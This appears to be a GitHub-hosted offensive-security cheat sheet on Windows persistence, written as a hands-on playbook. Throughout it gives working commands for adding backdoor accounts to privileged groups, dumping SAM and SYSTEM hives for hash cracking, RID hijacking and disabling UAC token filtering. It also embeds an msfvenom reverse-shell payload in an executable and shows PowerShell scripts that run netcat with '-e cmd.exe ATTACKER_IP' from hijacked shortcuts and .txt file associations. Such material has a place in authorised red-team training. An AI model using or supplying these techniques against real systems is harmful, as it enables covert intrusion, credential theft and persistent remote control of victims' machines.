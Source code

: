 # Windows Persistence

## Assign Group Memberships

### Add to Administrators group
Most straight forward way, but could be suspicious.

`C:\> net localgroup administrators <username> /add`

### Add to Backup Operators
Backup Operators have read/write for any file or registry key on the system and ignores any configured DACL.

Can use this to copy SAM and SYSTEM registry hives to crack hashes offline.

`C:\> net localgroup "Backup Operators" <username> /add`

Downside is that this account is unprivileged and cannot RDP or WinRM to the machine. We can add it to the **Remote Desktop Users** for RDP or **Remote Management Users** for WinRM

`C:\> net localgroup "Remote Desktop Users" <username> /add`

`C:\> net localgroup "Remote Management Users" <username> /add`

#### After Creation
After connecting to the host using Evil-WinRM with the Backup Operators account, we can use the following commands to grab SAM and SYSTEM files:

`*Evil-WinRM* PS C:\> reg save hklm\system system.bak`

`*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak`

`*Evil-WinRM* PS C:\> download system.bak`

`*Evil-WinRM* PS C:\> download sam.bak`

Then you can use [impacket](../../useful_tools/Linux/README.md#impacket---secretsdumppy) for cracking the hashes. Then perform a Pass-the-Hash attack using [evil-winrm](../../remote_connection/Windows/README.md#winrm)

## Special Privileges and Security Descriptors
### SeBackupPrivilege & SeRestorePrivilege
These two privileges are the ones used by Backup Operator accounts. We can give users those privileges doing the following:

`C:\> secedit /export /cfg config.inf`

This will create a `config.inf` file in the current directory. Open the file in notepad (or something similar) and scroll to the [Privilege Rights] section. There look for the two privileges and add the user you want at the end of the line `<line>,<username>`. Then run the following commands:

`C:\> secedit /import /cfg config.inf /db config.sbd`

`C:\> secedit /configure /db config.sbd /cfg config.inf`

### Security Descriptor
We will now need to allow our user to connect to WinRM. **You will need to have GUI access to the host for this step**.

`C:\> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDescriptorUI`

You will then need to add the user you want and select the Full Control(All Operations) box.

[After Creation](#after-creation)

If someone was looking at the user using `net user <username>` this method will not show that it has any special group memberships!

## RID Hijacking
This has to be one of my favorite low level ways of persistence (I just think it is cool, I may learn something better later on)!

The default Administrator account is assigned the RID = 500, while regular users have an RID >= 1000. We can check to see the RIDs by using the following command:

`C:\> wmic useraccount get name,sid`

The RID is the last part of the SID. Write down the RID of the account you want to change.

**You will need to get [pstools](../../useful_tools/Windows/README.md#pstools) onto the host machine**

`C:\<location of pstools> > PsExec64.exe -i -s regedit`

This will open up regedit with a SYSTEM account that will allow us to change the SAM. Go to: `HKLM\SAM\SAM\Domains\Account\Users\`

We will need to look through the accounts under the variable name F at location 0x30. This is the little endian hex value of the RID for the account. So make sure to take the RID of the user you want to give admin rights to and convert to little endian hex. Once you found the user you will need to change the 4 bytes to 0x01F4, which is 500. Make sure to put it in little endian F4 01.

Next time you attempt to log in the system will grant you admin rights!

## Potential Fences

### UAC
Due to UAC (User Account Control) admin rights may be stripped upon remote connection. This is due to the LocalAccountTokenFilterPolicy registry value. We can change that using the following command:

`C:\> reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

Where `/t` is the datatype, `/v` is the valuename, and `/d` is the data.

## Backdooring Files

### Executables
Find an executable that the user is likely to use frequently (check desktop). Once you find the executable download it to the attacking machine.

We can then use [msfvenom](../../useful_tools/Linux/README.md#msfvenom) to implant a reverse shell thread into the executable.

`msfvenom -a x64 --platform windows -x <executable name> -k -p windows/x64/shell_reverse_tcp lhost=<Attacker IP> lport=4444 -b "\x00" -f exe -o puttyX.exe`

You can then put it back on the system in the same place. That way a reverse shell will occur each time the user runs the program.

### Shortcut Files
Find a frequently used application and right-click to select properties. Here we can see the target value is the location of the application.

We can create a simple powershell script and hide it in `C:\Windows\System32`. The script could use [netcat](../../useful_tools/Windows/README.md#netcat):

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"

C:\Windows\System32\calc.exe
```

Use the application's location as the last line. `nc64.exe` can be placed anywhere, but then update the location in the script.

Afterwards we can update the shortcut's Target to our backdoor script.

`powershell.exe -WindowStyle hidden C:\Windows\System32\backdoor.ps1`

This will open our backdoor in the background using powershell. You may need to change the icon back (search using the original location and you should find the original icon)

### Hijacking File Associations
We can have the OS run a shell for us whenever a certain file type is executed!

We need to find the ProgID of the file type first. This can be found in the registry `HKLM\Software\Classes\`. For example looking at .txt files.

![ProgID](../../images/ProgID.png)

Once we find the ProgID we then need to search for the subkey (also under `HKLM\Software\Classes\`). Once found go to `shell\open\command` subkey

![File Association](../../images/file_association.png)

Here we will see the default program to open the file. At the end you will notice `%1`, which is the first argument or the file that is trying to open.

We can then create a new backdoor program that will take advantage of this.

```
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe ATTACKER_IP 4445"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```

Notice that we need to pass the file name ourselves using `$args[0]` in our powershell script. Again we will need [netcat](../../useful_tools/Windows/README.md#netcat).

We then need to update the Data section to point to our backdoor program.

`powershell -windowstyle hidden C:\windows\system32\backdoor.ps1 %1`

Anytime someone opens a `.txt` file we will get a shell!